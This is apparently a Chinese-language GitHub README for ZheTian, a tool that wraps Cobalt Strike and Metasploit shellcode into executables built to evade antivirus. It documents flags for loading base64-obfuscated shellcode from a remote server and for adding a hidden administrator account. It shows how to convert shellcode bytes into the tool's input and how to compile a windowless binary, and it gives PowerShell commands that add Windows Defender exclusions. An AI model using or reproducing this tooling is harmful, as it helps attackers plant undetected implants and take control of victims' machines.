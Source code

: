 ![logo](images/logo.png)
# ::ZheTian Powerful Anti Anti-Virus Trojan horse generator / 强大的免杀木马生成器

## 全新V2上线，Bypass All.


### V2版本支持Cobalt Strike、MSF原生Shellcode，无需任何处理即可直接使用，指令：

> -o string：选中payload，向同级目录生成一个可执行程序（无需go语言环境）
>
> -m int：选择要生成的系统架构，参数选择32和64，默认选中了64
> 
系统依旧采用了“慢加载”方式，运行约十五秒后才开始执行上线操作

![v2](images/v2.png)

####  本次更新采用闭源方式，V1版本继续开源。相比较移除了原本的ShellCode loader功能，只保留了生成模块。此版本进行功能优化之后可能成为最终解决方案，但是免杀之路不会停止，新ZheTian将与[Hearts K](http://heartsk.com/)合并，成为其一个子模块，欢迎继续体验新项目！感谢各位师傅一路关注。 —— 遮天项目

----

### V1：
![v1](images/v1.png)
### 参数：
> -u  string：从远程服务器加载base64混淆后的字符串。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
> -o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，砍去了其他功能，只保留了ShellCode Loader
>
> -n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
> -c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

#### 运行示例：

#### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

##### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

##### 图示操作过程

先生成64位shellcode

![payload](images/payload.jpg)

然后根据需要的命令进行修改
![code](images/code.png)

下面执行示例：
![run](images/run.png)

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行，但是360偶尔会识别为恶意程序

### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>

## 扩展：Windows defender

由于ZheTian的defender免杀效果不稳定，在此推荐一种方式，执行下面命令会分别向defender添加白名单：目录、进程、类型文件

#### 需以管理员权限运行

> powershell -Command Add-MpPreference -ExclusionPath "C:\tmp"
>
> powershell -Command Add-MpPreference -ExclusionProcess "java.exe"
>
> powershell -Command Add-MpPreference -ExclusionExtension ".java"
>

## 有问题加群反馈！！Issues 一概不处理！
 
<img src="images/group.png" width="350">
